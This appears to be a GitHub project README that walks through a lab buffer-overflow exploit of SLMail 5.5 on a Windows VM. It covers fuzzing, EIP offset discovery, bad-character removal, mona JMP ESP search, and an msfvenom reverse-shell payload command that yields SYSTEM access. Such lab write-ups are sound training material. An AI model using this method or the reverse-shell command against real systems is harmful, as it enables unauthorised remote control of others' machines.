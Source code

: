 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:

- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm”.
- Ran “ipconfig” to determine the machine's IP address as “10.0.2.10”.
- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM and rebooted.
- Created a desktop shortcut for “SLmail.cpl”.
- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.
- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.
- On the Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on the desktop.
- Created and edited a file named “fuzzy.py” in the same folder.
- Updated “fuzzy.py” line 13 with the target IP address and port, then saved changes.
- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.
- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.
- Observed the EIP update to “41414141” in Immunity debugger.
- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command.
- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.
- Reset SLmail.cpl and the Immunity debugger.
- Re-executed the “fuzzy.py” script and noted the updated EIP value in Immunity debugger.
- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.
- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.
- Incorporated a list of potential bad characters into the “fuzzy.py” buffer.
- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger.
- Identified certain characters as "bad" and refined the "fuzzy.py" buffer.
- Re-executed the "fuzzy.py" script with the refined buffer.
- Searched for mona modules using the “!mona modules” command in Immunity debugger.
- Identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.
- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.
- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.
- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

